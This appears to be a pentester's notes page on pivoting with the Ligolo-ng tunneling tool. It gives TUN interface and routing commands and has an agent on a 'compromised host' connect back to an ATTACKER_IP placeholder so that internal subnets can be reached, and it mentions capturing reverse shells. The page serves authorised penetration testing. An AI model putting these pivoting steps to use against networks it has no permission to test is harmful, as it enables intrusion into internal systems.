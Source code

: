```yaml
---
description: >-
  An advanced, yet simple, tunneling tool that uses a TUN interface. Ligolo-ng
  is a simple, lightweight and fast tool that allows pentesters to establish
  tunnels from a reverse TCP/TLS connection using
---
```


# Ligolo-Ng

{% embed url="https://github.com/tnpitsecurity/ligolo-ng" %}

<figure><img src="../../.gitbook/assets/Untitled Diagram (4).jpg" alt=""><figcaption></figcaption></figure>

### Setting up Ligolo-ng

{% hint style="info" %}
Before running Ligolo-ng, you must create a TUN Interface on the attacker PC so that ligolo can add routes to different sub networks. The idea is that when you have a sub network such as \`192.168.0.0/24\` that is inside the tartget network, you can provide the sub network IP address (which can only be reached from an internal network) to any tool you want.
{% endhint %}

`Creating a Tun Interface`

```
# Before running ligolo-ng proxy, you must create a tuntap virtual interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

<details>

<summary>ligolo-setup-script</summary>

```
#!/bin/bash
me="$(whoami)"
echo "addling ligolo routes to user: $user"

echo "creating the ligolo tun interface"
sudo ip tuntap add user "$me" mode tun ligolo 
sudo ip link set ligolo up

echo "now adding routes $a $b"
a="172.16.0.0/24"
b="192.168.0.0/24"
c="10.10.0.0/24"
sudo ip route add "$a" dev ligolo
echo "done : $a"
sudo ip route add "$b" dev ligolo
echo "done : $b"
sudo ip route add "$c" dev ligolo
echo "done : $c"

echo "fuck off now! :)"
```

</details>

Once you have added the TUN Interface and the sub networks that you want to access from the attacker PC, you can now launch ligolo proxy on the attacker PC and the agent on an already compromised host in the internal network.&#x20;

`Connecting to a Ligolo-Agent`

```
# 1. On the attacking machine :
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. On each compromised host with the network that you want to pivot to
./agent -connect ATTACKER_IP:9901
```

### Agent Binding/Listening

`Agent Binding/listening on ligolo allows you to capture reverse shells from an internal network and forward it through the ligolo connection. You can then launch a netcat/pwncat-cs from the attacking machine seamlessly, give you the impression as if you were already in the target network.`

```
# 1. On the attacking machine :
TODO :)
```

### Use Cases&#x20;

### 1. Accessing the Target Network

Once you have gained access to the Public Facing Server that is in the Target Network, you can to access/enumerate or exploit any vulnerabilities against a different target in the same network using the very own tools from the attacking machine.

```
# 1. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 2. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 1. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 192.168.0.0/24 dev ligolo

# 2. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 3. Once selected, type : 
Start

//This will now route the sub network 192.168.0.0 via the ligolo TUN interface and through the ligolo tunnel.
```
![image](https://user-images.githubusercontent.com/90450439/221322376-4f8ff91f-54c9-4cef-8e52-2d824340b089.png)
